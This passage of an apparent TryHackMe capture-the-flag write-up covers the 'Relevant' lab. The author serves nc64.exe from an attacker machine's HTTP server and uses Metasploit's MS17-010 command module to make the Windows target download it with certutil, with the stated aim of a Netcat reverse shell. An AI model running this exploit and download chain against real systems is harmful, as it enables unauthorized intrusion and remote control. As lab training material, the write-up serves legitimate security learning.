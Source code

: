 I am going to try to get a shell on the system using a common binary called Netcat. Netcat is a swiss army knife tool that uses TCP/UDP connections to do a multitude of things including a shell.

This is two parts.

1.  Downloading the binary to the Machine - We will do this by starting a local HTTP server on my attacker machine and serving the binary. We will then use Certutil.exe to download the binary and place it on the target system.
2.  We will use the new binary on the system to spawn a reverse shell. Start a listener on our attacker machine and send a command to the target to spawn a shell back to us.

Let's do this.

```bash
┌──(raindayzz㉿redfish)-[~/TryHackMe/Relevant]
└─$ cp /usr/share/windows-binaries/nc64.exe .
                                                                                                                     
┌──(raindayzz㉿redfish)-[~/TryHackMe/Relevant]
└─$ file nc64.exe              
nc64.exe: PE32+ executable (console) x86-64 (stripped to external PDB), for MS Windows

┌──(raindayzz㉿redfish)-[~/TryHackMe/Relevant]
└─$ sudo python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

Now that we have the binary and serving it to HTTP. Let's send the command to download it.

```bash
msf6 auxiliary(admin/smb/ms17_010_command) > run

[*] 10.10.102.225:445     - Authenticating to 10.10.102.225 as user 'bill'...
[*] 10.10.102.225:445     - Target OS: Windows Server 2016 Standard Evaluation 14393
[*] 10.10.102.225:445     - Built a write-what-where primitive...
[+] 10.10.102.225:445     - Overwrite complete... SYSTEM session obtained!
[+] 10.10.102.225:445     - Service start timed out, OK if running a command or non-service executable...
[-] 10.10.102.225:445     - Unable to get handle: The server responded with error: STATUS_SHARING_VIOLATION (Command=45 WordCount=0)
[-] 10.10.102.225:445     - Command seems to still be executing. Try increasing RETRY and DELAY
[*] 10.10.102.225:445     - Getting the command output...
[*] 10.10.102.225:445     - Command finished with no output
[*] 10.10.102.225:445     - Executing cleanup...
[+] 10.10.102.225:445     - Cleanup was successful
[+] 10.10.102.225:445     - Command completed successfully!
[*] 10.10.102.225:445     - Output for "certutil.exe -f -urlcache http://10.9.11.106/nc64.exe C:\nc.exe":



[*] 10.10.102.225:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(admin/smb/ms17_010_command) > 
```
